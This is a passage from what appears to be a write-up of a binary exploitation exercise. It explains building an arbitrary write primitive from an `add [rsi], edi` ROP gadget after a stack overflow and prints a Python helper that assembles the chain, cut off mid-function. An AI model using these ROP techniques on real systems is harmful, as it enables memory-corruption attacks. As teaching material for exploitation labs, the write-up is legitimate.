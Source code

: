 Instead, we can use the `add [rsi], edi` gadget to always write 4 bytes at a
time using only 6 quadwords per write, where the `memcpy` method uses 9
quadwords and, as mentioned, typically only writes 1 or 2 bytes at a time,
meaning we save a lot of bytes in the initial stack overflow (as an example,
my best solution for task 3 cost 2300 bytes, whereas with this method, it costs
only 860).

This also has the advantage that we can write any byte sequences we want without
first finding them in the binary, since the write bytes are passed directly in
the ROP chain. We can even write strings containing newline bytes, by
decrementing each newline byte in the input string and adding ROP chains for
reconstructing the newlines at runtime, so we are truly only limited in the
amount of available space to write in.

However, note that since the gadget uses `add`, not `mov`, we do need to
zero-initialize the memory location before writing. Using the `memcpy` chain
from task 3 and the 28 zero-bytes located at address `0x4008e4`, we can
zero-initialize 28 bytes at a time before we start writing. There are other
locations in the binary with more consecutive null-bytes, but these are located
in writable memory so we cannot be sure they are zero at runtime (whereas
`0x4008e4` is in `.rodata`).

Below snippet (from `common.py`) shows the construction of the (almost)
arbitrary write chain (please see `common.py` for the helper functions used):

```python
def arbitrary_write_chain(addr, s, do_shuffle = True):
    if isinstance(s, str):
        s = bytes(s, encoding = "ascii")
    if not isinstance(s, bytes):
        raise ValueError("Second argument must be str or bytes!")
    if s == b"": return s

    # round up to nearest multiple of 4 then pad the string with null bytes.
    n = int(np.ceil((len(s) + (s[-1] != 0)) / 4) * 4)
    s += (n - len(s)) * b"\x00"

    # record addresses of newlines bytes in the original write string before
    # replacing all newlines with 0x9.
    nl_addrs = [addr + i for i, c in enumerate(s) if c == 0xa]
    s = bytes([c - int(c == 0xa) for c in s])

    ## first, we zero out the memory at `addr`, 28 bytes at a time, such
    ## that we can use the `add [rsi], edi` gadget to write bytes freely.
    ## the address 0x4008e4 points to 28 zero-bytes in read-only mem
    ZEROS = 0x4008e4
    zero_init_chain = b"".join(memcpy_chain(addr + i*28, ZEROS, 28)
                               for i in range(n // 28))
    if (rem := n % 28):
        zero_init_chain += memcpy_chain(addr + (n//28)*28, ZEROS, rem)


    ## next, we build the chain for the actual writing of bytes
    stride = range(0, n, 4)
    # split string in groups of 4, extending each group to 8 bytes.
    write_vals = [s[i:i+4] + 4 * b"\x00" for i in stride]

    # build a write chain using the `add [rsi], edi` gadget for each group of
    # 4 bytes in the input string
    write_chains = [add_rsi_edi_chain(addr + i, write_val)
                    for i, write_val in zip(stride, write_vals)]

    # reconstruct newline bytes by incrementing bytes at the recorded addresses
    nl_recon_chain = b"".join(add_rsi_edi_chain(addr, 1) for addr in nl_addrs)

    if do_shuffle:
```